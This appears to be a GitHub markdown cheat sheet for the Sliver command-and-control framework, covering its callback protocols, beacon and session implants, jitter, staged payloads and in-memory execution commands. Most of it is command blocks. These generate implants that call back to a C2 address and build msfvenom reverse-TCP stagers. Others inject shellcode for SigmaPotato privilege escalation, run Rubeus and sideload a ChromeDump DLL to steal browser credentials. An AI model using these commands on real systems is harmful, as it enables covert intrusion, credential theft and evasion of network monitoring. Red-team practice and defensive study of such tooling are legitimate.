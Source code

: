 # Content
- [Sliver Communication Protocols](#sliver-communication-protocols)
- [Implants](#implants)
- [Armory](#armory)
- 


# Sliver Communication Protocols
![Architecture](https://github.com/user-attachments/assets/5d6aa18d-6484-42a1-b833-96e29ab9ca9b)
## Choosing the Right Protocol

The selection of a protocol depends on the specific network environment and the attacker’s objectives:

- **Stealth**: DNS and HTTPS are preferred in highly monitored networks.
- **High Bandwidth**: mTLS and HTTPS are better for large data transfers.
- **Internal Pivoting**: Named pipes and TCP pivots are essential for moving laterally within an environment.
- **Bypassing Restrictions**: DNS can bypass most outbound traffic filters.


# Implants 
- Implants are the software (binaries/executables), They offer network connections on different sets of protocols and a means of communication between a C2 server and the target workstation/server.
- Implants can operate in beacon and session modes.
  - **Sessions:** use long-polling connections, which means they use a single TCP connection which is constantly open.
  - **Beacons:** on the other hand call back periodically, and will sleep when not active which can help keep their presence hidden.
```bash
sliver > generate beacon --http <C2 IP>:8088 -N http_beacon --os linux --skip-symbols
sliver > generate --http <C2 IP>:8088 -N http_session --os linux --skip-symbols
sliver > http --lport 8088
```
## Jitter
- Jitter is a randomization mechanism that alters the interval at which beacon signals are sent to the C2 server.
- Example: If a beacon is set to signal every 60 seconds with a 20% jitter, the actual interval will vary randomly between 48 and 72 seconds.
## Stagers
- **Stegeless:**  one single binary that connects back to u
- **Staged:** Dropper, its a smaller payload that when executed, will call back to the C2 server to download and execute the second stage of the payload in-memory, which is where you actually get the beacon to execute.

```bash
# create profile and set a beacon
sliver > profiles new beacon --http <C2 IP>:8088 --format shellcode profile_name # creare beacon
sliver > profiles new --http 10.10.17.67:8088 --format shellcode academy # create session 
sliver > http -L <C2 IP> -l 8088
# just another example:  sliver > profiles new beacon --arch amd64 --os windows --mtls <C2 IP>:443 -f shellcode --timeout 300 --seconds 5 --jitter 1 profile_name 


# use sliver shellcode in msvnom stagger
sliver > stage-listener --url tcp://<C2 IP>:4443 --profile profile_name
sliver > generate stager --lhost <C2 IP> --lport 4443 --format csharp --save staged.txt
# change the shellcode in sliver.aspx with the one generated above
msfvenom -p windows/shell/reverse_tcp LHOST=<C2 IP> LPORT=4443 -f aspx > sliver.aspx

# use msvenom stagger directly 
sliver > stage-listener --url tcp://<C2 IP>:4443 --profile profile_name --prepend-size
msfvenom -p windows/shell/reverse_tcp LHOST=<C2 IP> LPORT=4443 -f aspx > sliver.aspx
```

# Armory
The armory is the Sliver Alias and Extension package manager , it allows you to automatically install various 3rd party tools such as BOFs and .NET tooling.

```bash
armory install hashdump
```

## Alias and Extension
- for more info check [doc](https://sliver.sh/docs?name=Aliases%20and%20Extensions)
### Alias
- Alias is essentially just a thin wrapper around the existing sideload and execute-assembly commands, and aliases cannot have dependencies.
### Extension
- An extension is a shared library that is reflectively loaded into the Sliver implant process, and is passed several callbacks to return data to the implant.
- it's more integrated with Sliver
- extensions' arguments will show up in --help and may be required.

# Execute
- execute
- execute-assembly
- execute-shellcode
- sideload
- spawndll

### execute
execute commands on the target system.
```bash
execute -c "ipconfig"
```
### execute-assembly
- run an arbitrary .NET assembly from local system on a remote system via a Sliver implant.
- The implant will start a sacrificial process (`notepad.exe` by default, you can change this by using the --process) that will host a reflective DLL used to load the .NET CLR.
- The assembly will then be copied into this process and a new thread will start on the reflective DLL entrypoint, which will load and run the assembly in memory.
```bash
execute-assembly /opt/binaries/Rubeus.exe createnetonly /program:C:\\windows\\system32\\notepad.exe
```
### execute-shellcode
execute raw shellcode in memory on a target system.
```bash
# make shellcode that make SigmaPotato run http-beacon (which on the target system) and save it in  sigmapotato.bin
donut -i ./SigmaPotato.exe -a 2 -b 2 -p 'c:\temp\http-beacon.exe' -o ./sigmapotato.bin
# create a process that have a usertoken and get the pid
rubeus createnetonly /program:C:\\windows\\system32\\notepad.exe
# execute the shellcode in the target process
execute-shellcode -p 2036 ./sigmapotato.bin 
```
### sideload
- The sideload command allows to load and run code in-memory (Windows/Linux) or via dropping a temporary file to disk. 
- On Windows, the DLL will be converted to a shellcode via [sRDI](https://github.com/monoxgas/sRDI) and injected into a sacrificial process.
```bash
sideload -e ChromeDump /tmp/chrome-dump.dll
```
### spawndll
the spawndll command allows you to inject reflective DLLs and run them in a remote process.
```bash
spawndll /tmp/Outflank-PsC.dll blah
```
